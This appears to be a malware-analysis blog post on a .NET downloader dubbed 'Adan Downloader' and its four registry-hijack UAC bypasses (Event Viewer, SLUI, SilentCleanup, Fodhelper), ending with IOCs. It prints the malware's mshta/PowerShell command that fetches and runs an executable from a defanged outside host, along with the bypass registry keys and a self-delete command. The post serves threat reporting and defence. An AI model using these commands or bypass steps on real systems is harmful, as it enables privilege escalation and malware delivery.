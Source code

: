 ```yaml
---
layout: post
title: "UAC Bypass"
date: 2022-06-29 01:20:00 -0000
categories: UACbypass
---
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/lock.jpg)

## Introduction

In this post, I highlight old UAC bypasss techniques that are still in use. Although the bypass techniques implements in the analyzed sample are older and known, attempts are still being made to exploit them. As a result, defenders should be made aware of these on-going threats. 

I ran across this simple .NET downloader I'm naming *Adan Downloader* based on it's project path. The malware implements UAC bypass techniques in order to execute a Powershell download command proxied through mshta.exe (https://attack.mitre.org/techniques/T1218/005/).

The UAC bypass techniques implemented are (https://attack.mitre.org/techniques/T1548/002/):
* UAC Bypass via Event Viewer
* UAC Bypass via Slui
* UAC Bypass via SilentCleanup Scheduled Task
* UAC Bypass via Fodhelper

### Sample Metadata
<table>
    <thead>
        <tr>
            <th colspan=2>Adan Downloader</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Filename</td>
            <td>Stub.exe</td>
        </tr>
        <tr>
            <td>File Type</td>
            <td>.NET Binary</td>
        </tr>
        <tr>
            <td>MD5</td>
            <td>47E16AF98E41C83EB2F07A2D29CA8AF9</td>
        </tr>
        <tr>
            <td>SHA1</td>
            <td>4F5161BA956ECB4A453893EB3FC34C1313C6C701</td>
        </tr>
        <tr>
            <td>SHA256</td>
            <td>72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</td>
        </tr>
        <tr>
            <td>PDB</td>
            <td>C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb</td>
        </tr>
        <tr>
            <td>VT</td>
            <td> 
                <a href="https://www.virustotal.com/gui/file/72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534/relations)">72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</a>
            </td>
        </tr>
    </tbody>
</table>

### Analysis:

This downloader attempts to bypass User Account Control (UAC) to download unwanted files to a system. Upon execution, it conducts the following activity:
 
Creates a payload objects that contains the URLS and command line arguments for the downloaded file:
```
hxxp://source1.kapetownlink[.]com/installer.exe - Args: /qn CAMPAIGN="1640"
hxxps://setup.maskvpn[.]cc/g.asp?id=151 - Args: /silent /subid=603
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/main.png)
*Main Function*

For each payload URL, it constructs the following command to download additional files from the download URL to **%ProgramData%\<random_string>.exe**.

<b>mshta command</b>
```powershell
@"mshta vbscript:(CreateObject(""Wscript.Shell"")).Run(
""cmd /c powershell -Command """"(New-Object System.Net.WebClient).
DownloadFile('hxxp://source1.kapetownlink[.]com/installer.exe', 
(Join-Path -Path $env:ProgramData -ChildPath '5OTP8CZoq3MomB2GxUYrHB8U.exe'))"""" 
& C:\ProgramData\5OTP8CZoq3MomB2GxUYrHB8U.exe /qn CAMPAIGN=""""1640"""""",0)
(window.close)"
```

The command proxies Powershell execution through the mshta utility. This utility normally executes Microsoft HTML Applications (HTA) files. The utility is known as a living off the land binary (LOLBIN) since it's native to the Windows OS. It's a signed tool that can be used to bypass a system's security measures.

After constructing the command, the downloader executes a function named *UACBypass.AutoBypass()*. The function starts by obtaining the Windows product name. Depending on the name, the downloader utilizes old techniques to bypass UAC security measures.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/uac_autobypass.png)

*AutoBypass Function*

### UAC Bypass Techniques

#### Windows 7: UAC Bypass via Event Viewer
    
If the product name starts with "Windows 7", the downloader abuses eventvwr.exe by hijacking the `HKCR\mscfile\shell\open\command` registry key to bypass UAC.

The downloader creates the registry key `HKCU\Software\Classes\mscfile\shell\open\command` and then sets the command value to the mshta command. Eventvwr is then started.

The technique works in part because of the relationship between the HKEY_CLASSES_ROOT (HKCR) and HKEY_CURRENT_USER (HKCU) registry keys. When `HKCU\Software\Classes\mscfile\shell\open\command` is created, a entry is also created in `HKCR\mscfile\shell\open\command`. The newly-created entry overwrites the mmc.exe entry that is normally there.
 
When eventvwr.exe is started, it reads `HKCR\mscfile\shell\open\command` to launce mmc.exe, however, since the HKCR key has been hijacked via the HKCU key, the mshta command is executed.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/eventvwr.png)


#### Windows 8: UAC Bypass via SLUI

If the product name starts with "Windows 8", UAC bypass is attempted by hijacking the `HKCR\Software\Classes\exefile\shell\open\command` registry key. 

The key `HKCU\Software\Classes\exefile\shell\open\command\` is created and the command is set to the mshta command. As explained previously, a entry is also created in the corresponding HKCR `\Software\Classes\exefile\shell\open\command` key. An additional value DelegateExecute is also created but the value is empty.

Slui.exe, an auto-elevated binary, is then executed with elevated privileges and executes the mshta command. 

![]({{site.url}}/{{site.baseurl}}/images/slui_func.png)


#### Other OS: UAC Bypass via SilentCleanup Scheduled Task

When the OS is determined to be other than Windows 7/8, the downloader reads the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`.

This key contains a UAC Group Policy setting that indicates whether a user is prompted for consent to continue with an operation. 

The malware checks for a value of 2. The explanation for this value is [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4).

If the key is set to 2, the downloader creates the key `HKCU\Environment\windir` and sets it value to the download command with "CleanReg &&" appended to the end. The malware then proceeds to start the *SilentCleanup* scheduled task.

*SilentCleanup* is native to Windows and is used to launch a silent auto disk cleanup when the system is running low on disk space.

The user's environment variables are stored in the `HKCU\Environment\` registry key. The malware adds the mshta command as the environment variable **windir**. As a result, when the *SilentCleanup* task is executed, the mshta command is executed.

![]({{site.url}}/{{site.baseurl}}/images/silentcleanup.png)


#### UAC Bypass via Fodhelper

The final UAC bypass technique implemented by the downloader involves *fodhelper*. *Fodhelper.exe* is used by Windows to manage optional features. During execution, it looks for the registry keys:
    `HKCU\Software\Classes\ms-settings` however, it doesn't normally exist by default.

The downloader creates the key `HKCU\Software\Classes\ms-settings\shell\open\command` and sets the value to the mshta command. As with the previous command, DelegateExecute is created but the value is empty.

*Fodhelper.exe* is then executed.

![]({{site.url}}/{{site.baseurl}}/images/fodhelper.png)

#### Cleanup Activity

The downloader cleans up after itself by deleting the UAC Bypass registry key it created. Then it deletes itself with the command:
    `cmd.exe /C choice /C Y /N /D Y /T 1 & Del <filename>`.

### IOCs

<b>Adan Downloader Hashes</b>
```
72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
```

<b>Project Path</b>

```
C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb
```

<b>UAC Bypass Registry Keys</b>
```
Fodhelper, HKCR|HKCU\Software\Classes\ms-settings\shell\open\command
SLUI, HKCU\Software\Classes\exefile\shell\open\command
Eventvwr, HKCU\Software\Classes\mscfile\shell\open\command
```

<b>SilentCleanup UAC Bypass Scheduled Task</b>
```
schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<b>Download URLs</b>

```
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
    hxxps://source1.boys4dayz[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
    hxxps://footerquotes.b-cdn[.]net/fq.exe

72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
    hxxp://source1.kapetownlink[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
```